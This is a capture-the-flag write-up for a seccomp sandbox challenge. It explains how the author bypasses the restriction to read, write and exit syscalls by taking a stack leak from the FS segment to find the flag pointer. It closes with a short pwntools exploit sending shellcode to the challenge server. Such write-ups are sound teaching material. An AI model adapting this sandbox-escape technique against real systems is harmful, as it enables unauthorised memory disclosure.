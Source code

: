 Lets explain the code:

Firstly, the `setup_secomp` function will be called, which limits all the syscalls our shellcode can use, to just `read`, `write`, `exit`.

first of all, a new page is created using the `mmap` function, it reads a random number to it.

Then, it will add this random number to 0x1337000ULL, and mmap a new page, which it reads the flag into.

Then, it will allocate a new memory which is executable, which our assembly will be stored at.

And lastly, it will allocate a memory for our stack, in address 0x13371337000.

Now it will read our assembly code, run this code:

```asm
    asm volatile(
        ".intel_syntax noprefix\n"
        "mov rbx, 0x13371337\n"
        "mov rcx, rbx\n"
        "mov rdx, rbx\n"
        "mov rdi, rbx\n"
        "mov rsi, rbx\n"
        "mov rsp, 0x13371337000\n"
        "mov rbp, rbx\n"
        "mov r8,  rbx\n"
        "mov r9,  rbx\n"
        "mov r10, rbx\n"
        "mov r11, rbx\n"
        "mov r12, rbx\n"
        "mov r13, rbx\n"
        "mov r14, rbx\n"
        "mov r15, rbx\n"
        "jmp rax\n"
```
and then it will run our assembly.
the challenge is not so simple, because we can't just do a open-read-write to the flag, because we can't do open. we would need to read it from the mmaped memory.

But, the problem is that all the registers are 0x13371337, so we can't do anything. but is it true?

In x86-64 there are 3 TLS entries, two of them accesible via FS and GS registers, FS is used internally by glibc (in IA32 apparently FS is used by Wine and GS by glibc).

This can give us a lot of information! lets read some bytes from it using gdb:

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/eba6d341-7113-4038-b68a-a119152f6cd8)

We can see that at the end, in offset 0x300, there is a stack leak! this is pretty strong, because the flag address is stored in the stack.
after dumping some memory before/after this address, we can see that at this address - 0x50, there is a pointer to the flag. then we can just use the write syscall to write it.

Exploit:
```py
from pwn import *

context.arch = 'amd64'

p = remote('amt.rs', 31173)

p.recvuntil('> ')
shellcode = "mov rcx, qword ptr fs:0x300\n"
shellcode += "mov rdi, [rcx-0x50]"
shellcode += shellcraft.write(1,'rdi',100)

p.sendline(asm(shellcode))
p.interactive()
```